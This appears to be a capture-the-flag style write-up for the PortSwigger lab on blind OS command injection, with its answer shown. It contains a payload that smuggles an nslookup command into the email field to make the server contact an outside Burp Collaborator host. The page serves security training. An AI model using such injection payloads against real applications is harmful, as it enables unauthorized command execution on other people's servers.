

repository: 0x3xp10i73r/offsec-vault · page: web-application-pentesting/command-injection/blind-oob-interaction/index.html · generator: mkdocs

---
title: "Lab: Blind OS command injection with out-of-band interaction"
description: "Trigger a DNS lookup to Burp Collaborator to prove blind command execution when no output or timing signal is available."
tags:
  - Web
  - Command Injection
  - Blind
  - OAST
  - PortSwigger
---

# Blind OS command injection with out-of-band interaction

**Lab:** PortSwigger Web Security Academy — *Blind OS command injection with out-of-band interaction* (Practitioner).

> The feedback function runs a shell command containing the user-supplied details. The command runs asynchronously and has no effect on the response, and you cannot redirect output to a readable location. The goal is to exploit the blind injection to issue a DNS lookup to Burp Collaborator.

## 1. Why in-band and timing fail here

The command is executed asynchronously, so there is no measurable delay in the HTTP response, and there is no writable web-served directory to redirect output into. The remaining reliable signal is an **out-of-band (OAST)** network interaction: make the server reach out to infrastructure you control.

## 2. Generate a Collaborator payload

In Burp, open **Collaborator** and click **Copy to clipboard** to get a unique subdomain such as `abc123.oastify.com`. Any DNS or HTTP request to it is logged and attributed to you.

## 3. Inject an nslookup payload

Intercept the feedback request, send it to Repeater, and set the `email` parameter to a command that resolves your Collaborator domain:

```text
email=||nslookup+abc123.oastify.com||
```

- `||` runs our command after the preceding one fails.
- `nslookup` performs a DNS lookup of the given hostname.
- the Collaborator subdomain is the hostname the server will resolve.
- trailing `||` isolates the payload.

![Submitting the nslookup payload pointing at the Collaborator domain](images/blind-oob-interaction/image.png)

## 4. Confirm the interaction

Back in the Collaborator tab, poll for interactions. A **DNS lookup** arriving from the target confirms the server executed your command:

![A DNS interaction from the target appears in Burp Collaborator](images/blind-oob-interaction/image-1.png)

![The lab solved after the out-of-band DNS interaction is received](images/blind-oob-interaction/image-2.png)

## Why the attack works

Even when output is discarded and execution is asynchronous, the injected command still runs. Forcing a DNS lookup produces evidence **outside** the application: the request lands on your Collaborator server. DNS is rarely blocked outbound, so this is one of the most reliable ways to prove blind code execution.
